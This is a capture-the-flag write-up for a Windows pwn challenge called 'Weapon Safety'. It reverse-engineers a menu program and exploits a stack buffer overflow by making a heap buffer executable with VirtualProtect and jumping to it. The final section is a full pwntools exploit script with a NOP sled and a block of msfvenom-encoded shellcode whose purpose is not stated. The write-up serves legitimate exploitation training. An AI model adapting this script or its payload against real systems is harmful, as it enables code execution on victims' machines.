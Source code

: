 ```yaml
---
title: Weapon Safety -- Windows Pwn
date: 2023-03-26T05:59:12Z
draft: false
description: pwn challenge from cyber league 2023
tocOpen: true
---
```


# Weapon Safety

### Initial Analysis

We are provided with a 64-bit windows executable. If we throw it into IDA, we can see that it did not manage to find the `main` function.

However we have the `_start` function and we can easily find this `main` function ourselves by either looking for strings in the program and finding cross references

![](https://i.imgur.com/S0zLGwu.png)

or clicking into the start function and finding the main function (somewhere in the last block), which can be identified by the function call right after 3 arguments are being loaded (r8, rdx, ecx).

![](https://i.imgur.com/Hq93NdL.png)


![](https://i.imgur.com/lWmv6qi.png)


If we look inside the `main` function, we see that our program presents us with a menu.

![](https://i.imgur.com/WUvSXFA.png)

If we look inside option 1, we see that it calls VirtualProtect on an address of our choice.

VirtualProtect essentially allows us to change the permissions on a memory page. This will be useful to us later.

```c
__int64 __fastcall sub_140001390(unsigned int a1)
{
  unsigned int v1; // esi
  const char *v2; // rcx
  DWORD flOldProtect; // [rsp+2Ch] [rbp-14h] BYREF
  LPVOID lpAddress; // [rsp+30h] [rbp-10h] BYREF
  SIZE_T dwSize; // [rsp+38h] [rbp-8h] BYREF
  DWORD flNewProtect[3]; // [rsp+44h] [rbp+4h] BYREF

  if ( a1 )
  {
    v1 = a1;
    v2 = "Safety is already disabled!";
  }
  else
  {
    printf("Enter safety code #1: ");
    scanf("%lld", &lpAddress);
    printf("Enter safety code #2: ");
    scanf("%lld", &dwSize);
    printf("Enter safety code #3: ");
    scanf("%ld", flNewProtect);
    v1 = VirtualProtect(lpAddress, dwSize, flNewProtect[0], &flOldProtect);
    if ( v1 )
      return v1;
    v2 = "Unable to disable safety catch";
  }
  puts(v2);
  return v1;
}
```

Option 2 allows us to allocate a buffer of any size.

```c
          case 2:
            printf("Enter size of ammunition: ");
            scanf("%lld", &Size);
            Buffer = (char *)malloc(Size);
            printf("Ammunition loaded! Please collect it at locker #%lld\n", Buffer);
            break;
```

Finally, option 3 presents us with a buffer overflow vulnerability by allowing us to write **Size** _(determined by option 2)_ amount of bytes into our **Buffer**.

It then copies our buffer into **opt** which is on our stack with a buffer size of 4. (!!! overflow !!!)

```c
          case 3:
            fgets(Buffer, Size, stdin);
            puts("Fire in the hole!");
            strcpy(opt, v17);
```

### Exploit Strategy

Since we have a BOF, we can essentially take control of our instruction pointer. But the question is, where to return to?

Note that option 1 and 2 allows us to allocate a RWX _(readable, writable, executable)_ buffer of a known address.

We can basically write shellcode inside, and then jump to it via our BOF in option 3.

### Exploit Script

Just like all other windows pwn, we have to first find our offset to return address. 

![](https://i.imgur.com/9en9oZq.png)

If you double click on the `opt` variable, we can see in IDA that it is stored at `rbp-0x90`. Since the return address is at `rbp+0x8`, the offset to our return address is **0x98**.

We also need to find the bad bytes _(essentially bytes that will truncate our input)_ for our shellcode. 

https://alomancy.gitbook.io/guides/guides/bof#5.-finding-bad-characters 

We can create our shellcode with msf venom _(refer to website below)_

https://alomancy.gitbook.io/guides/guides/bof#8.-creating-payload

We might need to make some space on stack for decoding

https://alomancy.gitbook.io/guides/guides/bof#9.-nops


Final script: 

```python
from pwn import *

opt = lambda x: p.sendlineafter(b"Select option: ", str(x).encode())

p = process("./weapon_safety.exe")

# allocate buffer of size 2000
opt(2)
p.sendline(b"2000")
p.recvuntil(b"locker #")
addr = p.recvlineS().strip()

# change buffer permissions to RWX
opt(1)
p.sendline(addr.encode())
p.sendline(b'2000')
p.sendline(b'64')

# write shellcode into buffer
opt(3)
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x82\x3b\xdc\x14\x5e"
buf += b"\xac\x63\x94\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x7e\x73\x5f\xf0\xae\x44\xa3\x94\x82"
buf += b"\x3b\x9d\x45\x1f\xfc\x31\xc5\xd4\x73\xed\xc6\x3b"
buf += b"\xe4\xe8\xc6\xe2\x73\x57\x46\x46\xe4\xe8\xc6\xa2"
buf += b"\x73\x57\x66\x0e\xe4\x6c\x23\xc8\x71\x91\x25\x97"
buf += b"\xe4\x52\x54\x2e\x07\xbd\x68\x5c\x80\x43\xd5\x43"
buf += b"\xf2\xd1\x55\x5f\x6d\x81\x79\xd0\x7a\x8d\x5c\xd5"
buf += b"\xfe\x43\x1f\xc0\x07\x94\x15\x8e\x27\xe3\x1c\x82"
buf += b"\x3b\xdc\x5c\xdb\x6c\x17\xf3\xca\x3a\x0c\x44\xd5"
buf += b"\xe4\x7b\xd0\x09\x7b\xfc\x5d\x5f\x7c\x80\xc2\xca"
buf += b"\xc4\x15\x55\xd5\x98\xeb\xdc\x83\xed\x91\x25\x97"
buf += b"\xe4\x52\x54\x2e\x7a\x1d\xdd\x53\xed\x62\x55\xba"
buf += b"\xdb\xa9\xe5\x12\xaf\x2f\xb0\x8a\x7e\xe5\xc5\x2b"
buf += b"\x74\x3b\xd0\x09\x7b\xf8\x5d\x5f\x7c\x05\xd5\x09"
buf += b"\x37\x94\x50\xd5\xec\x7f\xdd\x83\xeb\x9d\x9f\x5a"
buf += b"\x24\x2b\x95\x52\x7a\x84\x55\x06\xf2\x3a\xce\xc3"
buf += b"\x63\x9d\x4d\x1f\xf6\x2b\x17\x6e\x1b\x9d\x46\xa1"
buf += b"\x4c\x3b\xd5\xdb\x61\x94\x9f\x4c\x45\x34\x6b\x7d"
buf += b"\xc4\x81\x5d\xe0\xdb\x10\xa6\xdd\x08\xee\x14\x5e"
buf += b"\xed\x35\xdd\x0b\xdd\x94\x95\xb2\x0c\x62\x94\x82"
buf += b"\x72\x55\xf1\x17\x10\x61\x94\xad\x32\xce\x9f\x57"
buf += b"\x7a\x22\xc0\xcb\xb2\x38\x58\xd7\x5d\x22\x2e\xce"
buf += b"\x4c\xfa\x13\xa1\x79\x2f\x1d\x68\x53\xdd\x15\x5e"
buf += b"\xac\x3a\xd5\x38\x12\x5c\x7f\x5e\x53\xb6\xc4\xd2"
buf += b"\x76\xed\xdd\x13\x9d\xa3\xdc\x7d\xfb\x94\x9d\x9c"
buf += b"\xe4\x9c\x54\xca\xb2\x1d\x55\xe4\x46\x6c\x4b\x62"
buf += b"\xc4\x09\x5c\xd7\x6b\x09\x84\xc3\x63\x90\x9d\xbc"
buf += b"\xe4\xea\x6d\xc3\x81\x45\xb1\x2a\xcd\x9c\x41\xca"
buf += b"\xba\x18\x54\x5c\xac\x63\xdd\x3a\x58\xb1\x70\x5e"
buf += b"\xac\x63\x94\x82\x7a\x8c\x55\x0e\xe4\xea\x76\xd5"
buf += b"\x6c\x8b\x59\x6f\x6c\x09\x99\xdb\x7a\x8c\xf6\xa2"
buf += b"\xca\xa4\xd0\xa6\x6f\xdd\x15\x16\x21\x27\xb0\x9a"
buf += b"\xfd\xdc\x7c\x16\x25\x85\xc2\xd2\x7a\x8c\x55\x0e"
buf += b"\xed\x33\xdd\x7d\xfb\x9d\x44\x17\x53\xab\xd9\x0b"
buf += b"\xfa\x90\x9d\x9f\xed\xd9\xed\x4e\x04\x5a\xeb\x8b"
buf += b"\xe4\x52\x46\xca\xc4\x16\x9f\x50\xed\xd9\x9c\x05"
buf += b"\x26\xbc\xeb\x8b\x17\x93\x21\x20\x6d\x9d\xae\xf8"
buf += b"\x39\xde\x09\x7d\xee\x94\x97\x9a\x84\x5f\x92\xfe"
buf += b"\x31\x5c\xef\xbe\xd9\x66\x2f\xc5\x28\xae\x7b\x34"
buf += b"\xac\x3a\xd5\x0b\xe1\x23\xc1\x5e\xac\x63\x94"


context.arch = "amd64"
payload = b"A"*152
payload += p64(int(addr)+0xa0)
# nop sled
payload += b"\x90"*24
# we need to make space on stack for decoding?
payload += asm("sub rsp, 0x40")
payload += buf

p.sendline(payload)

#pause()
opt(4)


p.interactive()
```

